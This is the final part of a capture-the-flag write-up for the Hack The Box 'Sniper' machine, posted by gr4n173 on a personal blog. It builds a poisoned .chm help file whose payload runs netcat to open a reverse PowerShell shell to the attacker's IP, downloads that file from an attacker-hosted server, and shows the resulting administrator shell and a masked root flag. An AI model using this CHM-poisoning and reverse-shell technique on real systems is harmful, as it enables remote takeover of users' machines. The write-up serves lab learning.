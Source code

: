 Then I download the `nc64.exe` to the Chris's Documents folder as

```
PS: > Out-CHM -Payload "cd C:\Users\Chris\Documents;./nc64.exe
10.10.14.11 8888 -e powershell" -HHCPath "C:\Program Files (x86)\HTML
Help Workshop" 
```
Here, I defined the dir of `nc64.exe` and used [this](https://gist.github.com/mgeeky/cce31c8602a144d8f2172a73d510e0e7) to exploit. File name `doc.chm` was created and you can get here [file](public/files/doc.chm). This way I created the poison of `.chm` file.

Now I downloaded the created file to user shell `Chris` with a listener on along with the `python3 server` in `/var/www/html/pub`
 
```
PS C:\Users\Chris\Documents> Invoke-Webrequest -Uri http://10.10.14.11:8000/doc.chm -OutFile doc.chm                                                                   
Invoke-Webrequest -Uri http://10.10.14.11:8000/doc.chm -OutFile doc.chm  
```

## Root Shell

```
root@gr4n173:~$nc -lvnp 8888                              
listening on [any] 8888 ...  
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.151] 53447                 
Microsoft Windows [Version 10.0.17763.678]                                   
C:\Windows\system32>whoami                                                   
sniper\administrator                                                         
```
This way I can read the `root.txt`file.

```

PS C:\Users\Administrator\Desktop> more root.txt     
5624caf********************     
```

This way I got the root of Sniper box and learned alot from this box. So I would like to thank creators of this box `MinatoTW & felamos` for such an awesome box. Especially poisoning `.chm` was awesome.


I will be posting writeup of next box after box retired. I would like to Thank readers for being with me through out this writeup.

Feedback are really appreciated !!

Tweet about this writeup if you like.

You can see more blog at my medium here: [gr4n173](https://medium.com/@gr4n173).


